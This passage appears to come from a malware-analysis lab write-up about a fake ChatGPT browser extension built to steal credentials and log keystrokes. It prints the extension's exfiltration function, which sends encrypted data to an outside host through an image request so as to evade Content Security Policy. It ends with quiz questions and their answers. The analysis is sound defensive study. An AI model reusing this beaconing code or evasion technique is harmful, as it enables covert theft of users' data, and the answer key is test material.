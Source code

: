 - **Data Transmission**

```javascript
function sendToServer(encryptedData) {
    var img = new Image();
    img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
    document.body.appendChild(img);
}
```
{: .nolineno }

Data is exfiltrated to `https://Mo.Elshaheedy.com/collect` using a GET request. Instead of using `fetch()` or `XMLHttpRequest`, an `<img>` tag is dynamically created, and its `src` attribute is set to the server URL with the encrypted data.

> This is a stealthy technique to bypass Content Security Policies (CSPs) that might block traditional network requests.
{: .prompt-warning }


## Conclusion

In conclusion, this analysis uncovers a fake ChatGPT browser extension designed for credential theft and keystroke logging, targeting websites like Facebook. The extension exploits excessive permissions, employs AES encryption for data exfiltration, and uses evasion tactics to bypass sandbox detection. With a hardcoded encryption key and stealthy image-based GET requests, it avoids detection while stealing sensitive user data. 

------

## Questions

#### Q1
**Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?**

`base64`
#### Q2
**Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?**

`www.facebook.com`
#### Q3
**Which type of HTML element is utilized by the extension to send stolen data?**

`<img>`
#### Q4
**What is the first specific condition in the code that triggers the extension to deactivate itself?**

`navigator.plugins.length === 0`
#### Q5
**Which event does the extension capture to track user input submitted through forms?**
